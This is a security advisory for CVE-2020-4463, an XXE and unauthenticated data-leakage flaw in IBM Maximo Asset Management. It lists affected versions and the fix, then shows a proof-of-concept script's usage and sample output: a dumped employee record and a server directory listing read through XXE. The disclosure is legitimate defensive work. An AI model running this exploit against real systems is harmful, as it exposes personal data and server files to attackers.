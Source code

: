 ```yaml
---
title: IBM Maximo Asset Management is vulnerable via XXE 
description: IBM Maximo Asset Management is vulnerable to Information Disclosure via XXE Vulnerability (CVE-2020-4463)
header: IBM Maximo Asset Management is vulnerable via XXE 
tags: ['advisories']
---
```


IBM Maximo Asset Management is vulnerable to an XML External Entity Injection (XXE) attack when processing XML data. A remote attacker could exploit this vulnerability to expose sensitive information or consume memory resources.

<!--more-->

Base Score: 8.2

Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:L

### Affected Core Components
IBM Maximo Asset Management	7.6.0<br />
IBM Maximo Asset Management	7.6.1<br />

### Affected Products
Maximo for Aviation<br />
Maximo for Life Sciences<br />
Maximo for Nuclear Power<br />
Maximo for Oil and Gas<br />
Maximo for Transportation<br />
Maximo for Utilities<br />
SmartCloud Control Desk<br />
IBM Control Desk<br />
Tivoli Integration Composer<br />

### Patched in Version
Fixed Version: 	Maximo Asset Management 7.6.1.2<br />
prior Versions: See workaround (link below)

### Links:
- https://nvd.nist.gov/vuln/detail/CVE-2020-4463
- https://www.ibm.com/support/pages/node/6253953

### PoC
Here now the PoC for the vulnerability. Not only the versions mentioned by IBM are vulnerable. All versions befor version 7.6.0 can be also vulnerable.

The PoC checks 2 vulnerabilities that might be present on the system. A data leakage vulnerability that can be exploited if no authentication is implemented and the XXE vulnerability that can be exploited if a certain value (mxe.int.resolvexmlextentity=0) is not set in the configuration.

### Example

#### Usage

```
python3 CVE-2020-4463.py --help
usage: CVE-2020-4463.py [-h] [-x [XXE]] [-d [DATALEAK]] [--url [URL]]

CVE-2020-4463 PoC Data Leakage and XXE

optional arguments:
  -h, --help            show this help message and exit
  -x [XXE], --xxe [XXE]
                        XXE (Linux/Windows)
  -d [DATALEAK], --dataleak [DATALEAK]
                        Data Leakage REST request MXPERSON. May take a long
                        time.
  --url [URL]           Target URL http://, https://
```

If you get following response, both vulnerabilities are not present.

```
Error 500: BMXAA1268E - No user credentials.
```

#### Data Leakage

May take a long time if the database contains many entries.

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -d

<?xml version="1.0" encoding="UTF-8"?>
<QueryMXPERSONResponse xmlns="http://www.ibm.com/maximo" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    creationDateTime="2020-11-16T10:42:49+01:0 0" transLanguage="EN" baseLanguage="EN"
    messageID="6927296.160551977018422092" maximoVersion="7 6 20170418-0100 V7608-61" rsStart="0" rsTotal="4374"
    rsCount="4374">
    <MXPERSONSet>
        <PERSON>
            <ADDRESSLINE1></ADDRESSLINE1>
            <CITY></CITY>
            <CLASSSTRUCTUREID></CLASSSTRUCTUREID>
            <COUNTRY></COUNTRY>
            <C_DESCRIZIONE></C_DESCRIZIONE>
            <C_MATRICOLA></C_MATRICOLA>
            <C_QUALIFICA></C_QUALIFICA>
            <FIRSTNAME>Lxxxxxxx</FIRSTNAME>
            <LANGUAGE>IT</LANGUAGE>
            <LASTNAME>xxxxxx</LASTNAME>
            <PERSONID>Lxxxxxxx</PERSONID>
            <POSTALCODE></POSTALCODE>
            <PRIMARYEMAIL>xxxx@xxxx.xxx</PRIMARYEMAIL>
            <PRIMARYPHONE></PRIMARYPHONE>
            <STATEPROVINCE></STATEPROVINCE>
            <STATUS maxvalue="ACTIVE">ACTIVE</STATUS>
            <TITLE></TITLE>
            <USERNOTFTYPE></USERNOTFTYPE>
            <EMAIL>
                <EMAILADDRESS>xxxx@xxxx.xxx</EMAILADDRESS>
            </EMAIL>
        </PERSON>
```

#### XXE

```
CVE-2020-4463 git:(master) ✗ python3 CVE-2020-4463.py --url https://10.0.0.1 -x          

Error 500: BMXAA4160E - A major exception has occurred. Check the system log to see if there are any companion errors logged. Report this error to your system administrator.
	/c: &#40;No such file or directory&#41;
Error 500: For input string: &quot;bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost&#43;found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
&quot;
```

**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
